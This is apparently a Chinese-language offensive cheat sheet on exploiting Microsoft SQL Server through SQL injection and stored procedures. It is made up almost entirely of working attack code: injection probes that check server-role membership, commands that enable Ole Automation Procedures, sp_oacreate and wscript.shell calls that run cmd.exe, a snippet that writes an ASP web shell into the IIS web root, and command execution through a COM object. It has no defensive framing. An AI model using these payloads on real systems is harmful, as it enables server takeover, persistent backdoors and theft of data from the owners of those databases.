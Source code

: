## 存储过程

### 判断服务器角色

```
and 1=(select IS_SRVROLEMEMBER('sysadmin'))
and 1=(select IS_SRVROLEMEMBER('serveradmin')) 
and 1=(select IS_SRVROLEMEMBER('setupadmin'))
and 1=(select IS_SRVROLEMEMBER('securityadmin'))
and 1=(select IS_SRVROLEMEMBER('diskadmin'))
and 1=(select IS_SRVROLEMEMBER('bulkadmin'))
```

> 页面回显正常即为该角色

### 系统存储过程

以sp_开头，进行系统的设定。如：sp_oacreate、sp_oamethod

- sp_oacreate是创建 OLE 对象的实例
- sp_oamethod是调用一个 OLE 对象的方法

```
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;
```

命令执行

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami > c:\\1.txt'
#利用mssql定义变量 shell调用wscript.shell利用cmd.exe /c 执行命令并写入文件
#sp_oacreate存储过程执行命令无回显，若存在web环境可写入到web目录
```

利用系统存储过程写shell

```
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'c:\inetpub\wwwroot\shell.asp', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'<%execute(request("cmd"))%>'
```

利用com组件执行命令

```
declare @luan int,@exec int,@text int,@str varchar(8000);
exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output;
exec sp_oamethod @luan,'exec',@exec output,'C:\windows\system32\cmd.exe /c whoami';
exec sp_oamethod @exec, 'StdOut', @text out;exec sp_oamethod @text, 'readall', @str out;
select @str;
```
